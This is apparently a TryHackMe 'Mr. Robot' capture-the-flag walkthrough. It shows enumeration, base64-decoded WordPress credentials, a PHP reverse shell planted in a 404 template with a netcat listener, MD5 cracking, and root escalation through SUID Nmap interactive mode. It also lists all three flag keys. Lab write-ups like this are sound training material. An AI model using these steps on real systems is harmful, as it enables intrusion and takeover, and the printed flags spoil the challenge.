

<p align="center">
  
</p>

<p align="center">
  <b>🤖 TryHackMe Mr. Robot CTF 🤖</b>
</p>


Can we hack Mr. Robot CTF? This virtual machine is rated **medium** and will teach us many useful things.


The instructions will help achieve the same answers; there are step-by-step instructions.

Used programs:

>+ **OpenVPN** 
>+ **NMAP**
>+ **GoBuster**
>+ **Netcat**


## Instructions

To start hacking this virtual machine, we must first connect to TryHackMe OpenVPN and run the machine in Task 2. 

*I assume your local virtual machine is with the  [Kali Linux](https://www.kali.org/) operating system.*

## Establishing a connection via OpenVPN

First, we need to download the [OpenVPN](https://tryhackme.com/access) file from TryHackMe that they give you. Then turn on the terminal in the directory where you downloaded the OpenVPN file. Connection is made using:

> ```shell
> sudo openvpn *NAME_OF_YOUR_FILE*.ovpn
> ```

## Network enumeration

Firstly we need to look at which ports are open. The more we know about the system, the better. In this case, we use Nmap to scan the network. 

### Nmap scan

> ```shell 
> kali@kali:~/Desktop$ nmap *IP_ADDRESS* -A
> ```    

### Result of Nmap scan

> ```shell
> kali@kali:-/Desktop$ nmap 10.10.51.194 -A
> Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-23 18:35 CEST
> Nmap scan report for 10.10.38.44
> Host is up (0.095s latency).
> Not shown: 997 filtered ports
> PORT    STATE  SERVICE  VERSION
> 22/tcp  closed ssh
> 80/tcp  open   http     Apache httpd
> |_http-server-header: Apache
> |_http-title: Site doesn't have a title (text/html).
> 443/tcp open   ssl/http Apache httpd
> |_http-server-header: Apache
> |_http-title: Site doesn't have a title (text/html).
> | ssl-cert: Subject: commonName=www.example.com
> | Not valid before: 2015-09-16T10:45:03
> |_Not valid after:  2025-09-13T10:45:03    
>
>
> Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
> Nmap done: 1 IP address (1 host up) scanned in 34.90 seconds
> ```

As we can see, we have port 80 open which tells us that this is a website on the HTTP protocol.

### Installation of seclists

> ```shell
> sudo apt install seclists
> ```

After this command seclists will be installed in the **/usr/share/seclists/** directory.

### Directory enumeration on a web server using gobuster

> ```shell
> kali@kali:~/Desktop$ gobuster dir -u http://10.10.51.194/ -w /usr/share/seclists/Discovery/Web-Content/common.txt
> ===============================================================
> Gobuster v3.1.0
> by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
> ===============================================================
> [+] Url:                     http://10.10.51.194/
> [+] Method:                  GET
> [+] Threads:                 10
> [+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
> [+] Negative Status codes:   404
> [+] User Agent:              gobuster/3.1.0
> [+] Timeout:                 10s
> ===============================================================
> 2021/05/23 18:27:45 Starting gobuster in directory enumeration mode
> ===============================================================
> /.hta                 (Status: 403) [Size: 213]
> /.htaccess            (Status: 403) [Size: 218]
> /.htpasswd            (Status: 403) [Size: 218]
> /0                    (Status: 301) [Size: 0] [--> http://10.10.51.194/0/]
> /Image                (Status: 301) [Size: 0] [--> http://10.10.51.194/Image/]
> /admin                (Status: 301) [Size: 234] [--> http://10.10.51.194/admin/]
> /atom                 (Status: 301) [Size: 0] [--> http://10.10.51.194/feed/atom/]
> /audio                (Status: 301) [Size: 234] [--> http://10.10.51.194/audio/]  
> /blog                 (Status: 301) [Size: 233] [--> http://10.10.51.194/blog/]   
> /css                  (Status: 301) [Size: 232] [--> http://10.10.51.194/css/]    
> /dashboard            (Status: 302) [Size: 0] [--> http://10.10.51.194/wp-admin/] 
> /favicon.ico          (Status: 200) [Size: 0]                                     
> /feed                 (Status: 301) [Size: 0] [--> http://10.10.51.194/feed/]     
> /images               (Status: 301) [Size: 235] [--> http://10.10.51.194/images/] 
> /image                (Status: 301) [Size: 0] [--> http://10.10.51.194/image/]    
> /index.php            (Status: 301) [Size: 0] [--> http://10.10.51.194/]          
> /index.html           (Status: 200) [Size: 1188]                                  
> /js                   (Status: 301) [Size: 231] [--> http://10.10.51.194/js/]     
> /intro                (Status: 200) [Size: 516314]                                
> /license              (Status: 200) [Size: 309]                                   
> /login                (Status: 302) [Size: 0] [--> http://10.10.51.194/wp-login.php]
> /page1                (Status: 301) [Size: 0] [--> http://10.10.51.194/]            
> /phpmyadmin           (Status: 403) [Size: 94]                                               
> /readme               (Status: 200) [Size: 64]                                               
> /rdf                  (Status: 301) [Size: 0] [--> http://10.10.51.194/feed/rdf/]            
> /robots               (Status: 200) [Size: 41]                                               
> /robots.txt           (Status: 200) [Size: 41]                                               
> /rss                  (Status: 301) [Size: 0] [--> http://10.10.51.194/feed/]                
> /rss2                 (Status: 301) [Size: 0] [--> http://10.10.51.194/feed/]                
> /sitemap              (Status: 200) [Size: 0]                                                
> /sitemap.xml          (Status: 200) [Size: 0]                                                
> /video                (Status: 301) [Size: 234] [--> http://10.10.51.194/video/]             
> /wp-admin             (Status: 301) [Size: 237] [--> http://10.10.51.194/wp-admin/]          
> /wp-content           (Status: 301) [Size: 239] [--> http://10.10.51.194/wp-content/]
> /wp-config            (Status: 200) [Size: 0]                                        
> /wp-includes          (Status: 301) [Size: 240] [--> http://10.10.51.194/wp-includes/]
> /wp-cron              (Status: 200) [Size: 0]                                         
> /wp-links-opml        (Status: 200) [Size: 227]                                       
> /wp-load              (Status: 200) [Size: 0]                                         
> /wp-login             (Status: 200) [Size: 2606]                                      
> /wp-mail              (Status: 500) [Size: 3064]                                      
> /wp-settings          (Status: 500) [Size: 0]                                         
> /wp-signup            (Status: 302) [Size: 0] [--> http://10.10.51.194/wp-login.php?action=register]
> /xmlrpc               (Status: 405) [Size:42]                                                      
> ===============================================================
> 2021/05/23 18:40:33 Finished
> ===============================================================
> ```


## Finding the first key

After enumeration, we can see more directories located on this web server. If we look at TryHackMe Hint for the first key, we can see that our hint is **robots.txt**. I guess this hint **/robots** directory are related. Next to them, I'm interested in **/wp-login**; I think it's WordPress.

Entering the page **Enter the obtained IP address into your web browser**:

<p align="center">
   
</p>

But if we type in our link **/robots.txt (IP_ADDRESS/robots.txt)**, we can see that it throws out the first key, which is in .txt format.
      
<p align="center">
   
</p>

We found two files, one **fsociety.dic** and **key-1-of-3.txt**. The first file looks like a dictionary file.

### Downloading the first key

We can see the first key by entering the page (http://IP_ADDRESS/key-1-of-3.txt), but we can also download it using the **curl** command.

> ```shell
> curl -s http://IP_ADDRESS/key-1-of-3.txt
> ```

### Result

> ```shell
> kali@kali:~/Desktop$ curl -s http://10.10.51.194/key-1-of-3.txt
>
> 073403c8a58a1f80d943455fb30724b9
> ```
   
**First key:** `073403c8a58a1f80d943455fb30724b9`

## Finding the second key

**HINT:** White coloured text. 

If we go back to **gobuster** we can see that we had **WordPress** directories. I am specifically interested in:

> ```shell
> /login (Status: 302)
> /wp-content (Status: 301)
> /admin (Status: 301)
> /wp-login (Status: 200)
> /license (Status: 200)
> /wp-includes (Status: 301)
> ```
 
As we can see, the **/license** directory is with 200 status. Status 200 tells us that the page is active. **Curl** is our best friend in this case.

### Curl command

> ```shell
> curl -s http://IP_ADDRESS/license | tr -d "\n"
> ```

### Result

> ```shell
> kali@kali:~/Desktop$ curl -s http://10.10.51.194/license | tr -d "\n"
>     
> what you do just pull code from Rapid9 or some s@#% since when did you become a script kitty?do you want a    password or something?
>
> ZWxsaW90OkVSMjgtMDY1Mgo=
> ```

The specific text is `ZWxsaW90OkVSMjgtMDY1Mgo=` looks like **base64**.

### Decrypting Base64

The command we will use is:

> ```shell
> echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d
> ```
     
### Base64 decryption result

> ```shell
> kali@kali:~/Desktop$ echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d
>
> elliot:ER28-0652
> ```
   
We got the username and password, I guess, from WordPress.

   
**Interesting fact:** The code is a reference to Elliot's number from the identification card at work and appears in the series.


### WordPress enumeration

It's time to try to sign up on WordPress:

The first step is to go to: 

> ```shell
> http://IP_ADDRESS/wp-login
> ```

After logging in on the page immediately in the lower-left corner, we see that the WordPress version is 4.3.1. This is an old version of WordPress.

<p align="center">
   
</p>

We find two users, of which Elliot (we) are the administrator.

<p align="center">
   
</p>

We can see that this old version of WordPress is vulnerable to **PHP reverse shell.** [**LINK OF THE SCRIPT**](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

Since we are an administrator, we need to go to Appearance.

<p align="center">
   
</p>

We have to replace the code with the script on the 404 PHP template. 

<p align="center">
   
</p>


**Note:** Pay attention to the IP address in the code; here, we have the local IP address, ie. The IP address of our computer. We can check the local IP address with `ifconfig`.


### PHP reverse shell via netcat

After we have replaced and changed the IP address in the script, we will run **Netcat** on the port that establishes a connection to us via the script. We do this with the following command:

> ```shell
> nc -nlvp 1234
> ```

After that, we have to go to the **http://IP_ADDRESS/404.php** this link in the web browser.

<p align="center">
   
</p>

As we can see, we opened the shell in the terminal. Netcat got the connection. 

We will now check which files are in the **/home/robot** directory. We do this with the command:

> ```shell
> ls -l /home/robot
> ```

We now know the location of the second key: 

> ```shell
> $ ls -l /home/robot
> total 8
> -r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
> -rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
> ```

The problem is that we are not `robot` user on this machine at all. We check this with the `whoami` command.

> ```shell
> $ whoami
> daemon
> ```

The only file we can see is `password.raw-md5`. Let's see what's in this file. 

> ```shell
> $ cat /home/robot/password.raw-md5
> robot:c3fcd3d76192e4007dfb496cca67e13b
> ```

### Decrypting MD5 Hash

It's MD5 Hash. A hash is a mathematical function that cannot be returned after it has done its job. This is good for storing passwords, but MD5 is an old algorithm and easy to crack.

We will first look at whether this hash can be cracked online to save time. [LINK](https://md5.gromweb.com/?md5=c3fcd3d76192e4007dfb496cca67e13b)

As we can see on the link above, it can. **The password** is `abcdefghijklmnopqrstuvwxyz`
   
Now we need to log in as a `robot` user. We do this with the following command:

> ```shell
> su - robot
> ```

But there is a problem: 

> ```shell
> $ su - robot
> su: must be run from a terminal
> ```

### Python shell

This can be fixed with Python. Firstly we need to check if  Python is installed at all.

> ```shell
> $ which python
> /usr/bin/python
> ```

Let's make a shell with Python. We can do that with this command: 

> ```shell
> python -c 'import pty; pty.spawn("/bin/sh")'
> ```

As you can see, the terminal didn't show any errors, which means that we successfully created a shell in Python.

Let's sign in as a user `robot`.

> ```shell
> $ su - robot           
> su - robot
> Password: abcdefghijklmnopqrstuvwxyz
>
> $ whoami
> whoami
> robot
> $ 
> ```
      
As we can see, we are logged in as a `robot` user.

### Second key 

To view the second key, we need to use the cat command: 

> ```shell
> cat key-2-of-3.txt
> ```

Result:

> ```shell
> $ cat key-2-of-3.txt
> cat key-2-of-3.txt
> 822c73956184f694993bede3eb39f959
> ```

**Second key:** `822c73956184f694993bede3eb39f959`

   

## Finding the third key

**HINT:** NMAP
   
If we go back to the Nmap result we got at the beginning; we can see that the SSH port is closed. The final key is mostly located in the `/root` directory. To get root, we need to do a privilege escalation. The first thing that interests me is whether the user `robot` is in the so-called sudo group.

### Privilege escalation

Is user robot in the sudo group ? 

> ```shell
> $ sudo -l
> sudo -l
> [sudo] password for robot: abcdefghijklmnopqrstuvwxyz
>
> Sorry, user robot may not run sudo on linux.
> ```

The user robot is not on the list with sudo privileges. Now we can see which programs are under the `root` user. 

#### Checking SETUID that are under root control:

Command: 

> ```shell
> find / -user root -perm -4000 -print 2>/dev/null
> ```

Output: 

> ```shell
> $ find / -user root -perm -4000 -print 2>/dev/null
> / -user root -perm -4000 -print 2>/dev/null
> /bin/ping
> /bin/umount
> /bin/mount
> /bin/ping6
> /bin/su
> /usr/bin/passwd
> /usr/bin/newgrp
> /usr/bin/chsh
> /usr/bin/chfn
> /usr/bin/gpasswd
> /usr/bin/sudo
> /usr/local/bin/nmap
> /usr/lib/openssh/ssh-keysign
> /usr/lib/eject/dmcrypt-get-device
> /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
> /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
> /usr/lib/pt_chown
> ```

I immediately noticed `/usr/local/bin/nmap`. Let's see what version of Nmap it is.

#### Checking Nmap version: 

Command: 

> ```shell 
> nmap --version
> ```

Output: 

> ```shell
> $ nmap --version
> nmap --version
>
> nmap version 3.81 ( http://www.insecure.org/nmap/ )
> ```

As we can see, the Nmap version is **3.81**.

#### Enumeration:

After a bit of research, I found out: 

[LINK](https://pentestlab.blog/category/privilege-escalation/) as we can read at the link above, this is an older Nmap version. Versions from 2.02 to 5.21 had the so-called. The interactive mode allowed us to execute commands. In addition, checking `SETUID` will enable us to run commands as root. 

> ```shell
> $ ls -l /usr/local/bin/nmap
> ls -l /usr/local/bin/nmap
> -rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
> ```

#### Starting Nmap in the interactive mode: 

Command:

> ```shell
> nmap --interactive
> ```

Output: 

> ```shell
> $ nmap --interactive
> nmap --interactive
>
> Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
> Welcome to Interactive Mode -- press h <enter> for help
> nmap> !whoami
> !whoami
> root
> waiting to reap child : No child processes
> ```

We see that Nmap is in interactive root mode. 

#### Finding the final key: 

We will first check if the third flag is in the root. 

Command:

> ```shell
> !ls /root
> ```

Output: 

> ```shell
> nmap> !ls /root
> !ls /root
> firstboot_done  key-3-of-3.txt
> waiting to reap child : No child processes
> ```
      
We found the third key that is in the text file. We can read the content with the following command:

> ```shell
> !cat /root/key-3-of-3.txt
> ```

> ```shell
> nmap> !cat /root/key-3-of-3.txt
> !cat /root/key-3-of-3.txt
> 04787ddef27c3dee1ee161b21670b4e4
> waiting to reap child : No child processes
> ```

**Third key:** `04787ddef27c3dee1ee161b21670b4e4`

## Conclusion

Interesting CTF with a lot of references to the series. I've learned a lot, and the most important thing is to regularly update operating systems and applications, as we see in the example with the older version of `Nmap` and `WordPress`. Also, do not allow anyone to hack your accounts, change the codes regularly and use random codes with a minimum length of 32 digits for each account. Everyone should follow one password, one account, and one email address.

## Keys

List of questions and answers:

> | Questions | Answers |
> | --- | --- |
> | What is key 1 ?  | <kbd> 073403c8a58a1f80d943455fb30724b9 </kbd>|
> | What is key 2 ?  | <kbd> 822c73956184f694993bede3eb39f959 </kbd> |
> | What is key 3 ?  | <kbd> 04787ddef27c3dee1ee161b21670b4e4 </kbd> |

## Thank you for your time 💙

